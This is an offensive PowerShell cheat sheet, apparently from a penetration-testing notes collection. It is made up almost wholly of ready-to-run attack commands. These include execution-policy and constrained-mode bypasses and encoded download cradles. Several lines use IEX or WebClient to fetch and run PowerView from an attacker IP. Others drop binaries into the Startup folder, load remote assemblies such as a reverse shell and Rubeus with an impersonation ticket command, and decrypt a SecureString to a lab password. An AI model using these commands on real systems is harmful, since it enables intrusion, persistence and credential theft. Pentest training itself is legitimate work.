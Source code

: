 # Powershell

## Summary

* Execution Policy
* Encoded Commands
* Download file
* Load Powershell scripts
* Load C# assembly reflectively
* Secure String to Plaintext
* References

## Execution Policy

```ps1
powershell -EncodedCommand $encodedCommand
powershell -ep bypass ./PowerView.ps1

# Change execution policy
Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
Set-ExecutionPolicy Bypass -Scope Process
```

## Constrained Mode

```ps1
# Check if we are in a constrained mode
# Values could be: FullLanguage or ConstrainedLanguage
$ExecutionContext.SessionState.LanguageMode

## Bypass
powershell -version 2
```

## Encoded Commands

* Windows
    ```ps1
    $command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")'
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
    $encodedCommand = [Convert]::ToBase64String($bytes)
    ```
* Linux: :warning: UTF-16LE encoding is required
    ```ps1
    echo 'IEX (New-Object Net.WebClient).DownloadString("http://10.10.10.10/PowerView.ps1")' | iconv -t utf-16le | base64 -w 0
    ```

## Download file

```ps1
# Any version
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerView.ps1", "C:\Windows\Temp\PowerView.ps1")
wget "http://10.10.10.10/taskkill.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"
Import-Module BitsTransfer; Start-BitsTransfer -Source $url -Destination $output

# Powershell 4+
IWR "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"
```

## Load Powershell scripts

```ps1
# Proxy-aware
IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1')
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10/PowerView.ps1') | powershell -noprofile -
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.10.10/PowerView.ps1')|iex"

# Non-proxy aware
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.10.10/PowerView.ps1',$false);$h.send();iex $h.responseText
```

## Load C# assembly reflectively

```powershell
# Download and run assembly without arguments
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/rev.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[rev.Program]::Main()

# Download and run Rubeus, with arguments (make sure to split the args)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# Execute a specific method from an assembly (e.g. a DLL)
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.16.7/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

## Secure String to Plaintext

```ps1
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## References

* [Windows & Active Directory Exploitation Cheat Sheet and Command Reference - @chvancooten](https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/)
* [Basic PowerShell for Pentesters - HackTricks](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)